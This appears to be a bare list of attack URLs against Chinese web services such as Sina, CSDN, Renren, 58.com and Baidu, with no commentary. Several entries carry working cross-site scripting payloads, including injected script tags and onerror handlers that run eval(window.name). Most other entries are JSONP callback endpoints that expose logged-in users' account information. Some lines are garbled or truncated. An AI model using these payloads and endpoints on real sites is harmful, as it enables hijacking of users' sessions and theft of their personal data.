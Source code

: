 remind.hupu.com/api/getRemindNum.api.php?contenttype=js&url=https%3A%2F%2Fbbs.hupu.com%2F40032955.html 

# 新浪

m.iask.sina.com.cn/cas/logins?domain=iask.sina.com.cn&popup=show&clsId=undefined&channel=null&businessSys=iask&fid=%22%3E%3Cscript%3Eeval(name)%3C/script%3E

https://login.sina.com.cn/sso/prelogin.php?entry=weibo&su=&rsakt=mod&client=ssologin.js(v1.4.19)&&callback=%3C%3E

# 人人

passport.game.renren.com/user/info?callback=jsonp1658332281480

# csdn

api.csdn.net/oauth/authorize?client_id=1000001&redirect_uri=http://www.iteye.com/auth/csdn/callback&response_type=%22https%3A%2F%2Fapi.csdn.net%2Foauth%2Fauthorize%3Fclient_id%3D1000001%26redirect_uri%3D%22http%3A%2F%2Fwww.iteye.com%2Fauth%2Fcsdn%2Fcallback%26response_type%3D%22%3E%3Cimg%20src%3Dx%20onerror%3Deval(window.name)%3E

https://api.csdn.net/oauth/authorize?client_id=1000001&xxoo=chrome-extension://&redirect_uri=http://www.iteye.com/auth/csdn/callback&response_type=%22[url]https://api.csdn.net/oauth/authorize?client_id=1000001&redirect_uri=%22http://www.iteye.com/auth/csdn/callback&response_type=%22%3E%3Cimg%20src=x%20onerror=alert[/url](1)%3E

# 爱奇艺

nl-rcd.iqiyi.com/apis/urc/getrc?contenttype=js&agent_type=1&cb=cb_r0i8g&ckuid=&dp=3&limit=5&only_long=1&terminalId=11

# 58同城

employer.58.com/index/enterpriseinfo?&callback=jsonp1658332281482

https://employer.58.com/index/enterpriseinfo?&xxoo=chrome-extension://&&callback=jQuery152018637907672647902_1657807551290&_=1657807551747

passport.58.com/pso/viplogin?path=https://employer.58.com/

# 百度阅读 

yuedu.baidu.com/nauser/getyduserinfo?na_uncheck=1&opid=wk_na&callback=bd

https://p.qiao.baidu.com/cps5/chat/push?sid=-100&tid=-1&reason=&tid_authtype=-1&sign ... ken%2522%253A%2522bridge%2522%257D&v=1657807497809587484

POST /abot/api/v1/tpl/commit HTTP/2
Host: sofire.baidu.com
